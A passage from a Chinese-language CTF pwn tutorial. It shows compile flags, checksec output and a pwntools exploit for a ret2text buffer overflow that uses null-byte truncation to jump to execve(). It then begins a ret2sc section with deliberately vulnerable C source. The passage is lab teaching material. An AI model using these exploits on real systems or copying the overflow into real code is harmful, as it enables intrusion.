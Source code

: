 
### Makefile

`gcc -fno-stack-protector -no-pie bof1.c -o bof1`

### 考点

Return to Text

1. `strlen()`用`\x00`截断绕过
2. `allow`可以直接跳转到`execve()`函数地址绕过

### 分析

1. `checksec`分析

   ```shell
   [*] '/ctf/work/bof1'
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

2. `objdump`命令查看函数地址

   - `get_sh()`函数地址：`0x4011d6`
   - `execve()`函数开始地址：`0x4011ef`

我们直接将函数返回地址定位到`execve()`函数开启地址是不行的，因为在主函数处有长度检测，不过可以通过`00`截断来绕过`strlen()`函数

### Exp

```python
from pwn import *

r = process("./bof1")

r.recvuntil("!\n")
p = b'\x00' * 0x18 + p64(0x4011ef)

r.send(p)

r.interactive()
```

## ret2sc

### 源码

```cpp
#include "stdio.h"
#include "stdlib.h"
#include "unistd.h"

char message[0x30];

int main(int argc, char const *argv[])
{
    char name[0x10];
    puts("Give me your message: ");
    fflush(stdout);
    read(0,message,0x30);
    puts("Give me your name: ");
    fflush(stdout);
    read(0,name,0x30);
```

[^1]: 是执行到这句`printf("Thank you %s!\n", name);`才跳转到shellcode
[^2]: 这些片段也称为 *gadget*